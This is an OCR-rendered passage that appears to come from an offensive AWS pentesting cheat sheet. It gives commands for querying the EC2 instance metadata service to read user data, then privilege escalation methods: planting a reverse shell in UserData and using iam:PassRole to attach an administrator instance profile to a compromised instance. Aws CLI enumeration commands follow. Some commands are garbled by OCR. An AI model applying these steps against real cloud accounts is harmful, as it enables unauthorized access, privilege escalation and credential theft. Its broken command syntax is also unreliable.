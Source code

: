 #### AWS Userdata

Version 1

```
curl http://169.254.169.254/latest/user-data/
```

Version 2

```bash
TOKEN=`curl
X PUT "http://169.254.169.254/latest/ api /token" H "X-aws-ec2-metadata-token-ttl-seconds: 21600"`
&& curl H "X-aws-ec2-metadata-token: $TOKEN" v http://169.254.169.254/latest/user-data/
```

### Privilege Escalation
* One approach to get a shell in a instance is to put a reverse shell in UserData attribute, when the  instance is launched, we will have the connection.
* Another approach happens when we have the iam:PassRole and iam:AmazonEC2FullAccess permissions, we can add an administrator role to the compromised EC2 instance and access aws services.

#### Getting information about the key

```
aws sts get-caller-identity
```

#### Getting policies attached to the IAM user

```
aws iam list-attached-user-policies --user-name user_name
```

#### Getting information about a specific policy version

```
aws iam get-policy-version --policy-arn ARN --version-id ID
```

To attach a role to an EC2 instance, we can use the RCE to grab the ID

```
curl http://169.254.169.254/latest/meta-data/instance-id
```

#### Listing instance profiles

```
aws iam list-instance-profiles
```

#### Attach an instance profile to an EC2 instance

```
aws ec2 associate-iam-instance-profile --instance-id ID --iam-instance-profile Name=ProfileName
```

### Credential Access
